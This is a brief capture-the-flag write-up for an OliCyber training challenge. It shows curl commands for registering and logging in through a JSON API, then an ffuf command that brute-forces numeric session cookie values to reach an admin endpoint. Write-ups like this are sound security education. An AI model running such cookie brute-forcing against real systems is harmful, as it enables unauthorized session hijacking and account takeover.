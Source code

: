 # URL
https://training.olicyber.it/challenges#challenge-36
# Concept
* using API documentation
* cookie brute-forcing
# Method of solve
* the landing page for the app is API documentation
* we need to send JSON data to the `/register` and `/login` endpoints to get a session ID
* and when we access the `/admin` endpoint, we need to fuzz the endpoint for a valid admin session value
```
curl -v -X POST -H "Content-Type: application/json" -d '{"username":"hackerfrogs","password":"hackerfrogs"}' http://too-small-reminder.challs.olicyber.it/register
curl -v -X POST -H "Content-Type: application/json" -d '{"username":"hackerfrogs","password":"hackerfrogs"}' http://too-small-reminder.challs.olicyber.it/login
curl -v -b "session_id=518" http://too-small-reminder.challs.olicyber.it/admin
```
* from here we use `FFuF` to fuzz for valid cookie values
```
ffuf -u http://too-small-reminder.challs.olicyber.it/admin -w ./numbers.txt -H "Cookie: session_id=FUZZ"
```

